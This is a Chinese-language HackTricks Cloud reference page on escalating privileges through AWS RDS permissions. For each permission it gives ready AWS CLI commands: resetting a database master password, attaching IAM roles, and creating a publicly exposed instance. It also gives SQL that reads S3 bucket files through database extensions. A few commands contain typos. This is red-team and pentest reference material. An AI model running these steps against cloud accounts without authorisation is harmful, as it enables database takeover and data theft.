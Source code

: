 # AWS - RDS Privesc

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以**修改主用户的密码**，并登录到数据库中：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
你需要能够**联系数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql (Aurora)

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**你发现一个名为**`rdsadmin`**的数据库，你就知道你在一个**AWS postgresql数据库**中。
{% endhint %}

首先，你可以检查这个数据库是否被用来访问任何其他AWS服务。你可以通过查看已安装的扩展来检查：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的内容，你可以假设这个数据库对 S3 有 **某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中看到 **集群是否附加了任何 IAM 角色**。如果有，你可以假设该数据库 **已准备好访问其他 AWS 服务**。基于 **角色的名称**（或者如果你能获取角色的 **权限**），你可以 **猜测** 数据库还有哪些额外的访问权限。

现在，要 **读取桶内的文件**，你需要知道完整路径。你可以用以下命令读取：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你有**原始AWS凭证**，你也可以用它们来访问S3数据：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量**即可访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个名为 **`rdsadmin`** 的用户，可以假设你在一个 **AWS RDS mysql db** 中。
{% endhint %}

在mysql中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，可以假设数据库已准备好访问S3数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问AWS服务。

现在，要 **读取桶内的文件**，你需要知道完整路径。你可以用以下命令读取：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

具有 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 权限的攻击者可以**将指定角色添加到现有 RDS 实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**: 访问敏感数据或未经授权修改RDS实例中的数据。\
注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附有**IAM角色**的集群内创建一个**新实例**。他无法更改主用户密码，但他可能能够将新数据库实例暴露给互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

具有 `rds:CreateDBInstance` 和 `iam:PassRole` 权限的攻击者可以**创建一个附加了指定角色的新 RDS 实例**。攻击者随后可能**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
要附加的角色/实例配置文件的一些要求（来自[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须存在于您的账户中。
* 配置文件必须具有 Amazon EC2 有权限承担的 IAM 角色。
* 实例配置文件名称和关联的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**: 访问敏感数据或未经授权修改RDS实例中的数据。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

具有`rds:AddRoleToDBInstance`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
DB实例必须在集群之外
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**: 访问敏感数据或对RDS实例中的数据进行未经授权的修改。

{% hint style="success" %}
学习和练习AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)上**关注**我们。
* **通过提交PRs到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库来分享黑客技巧**。

</details>
{% endhint %}
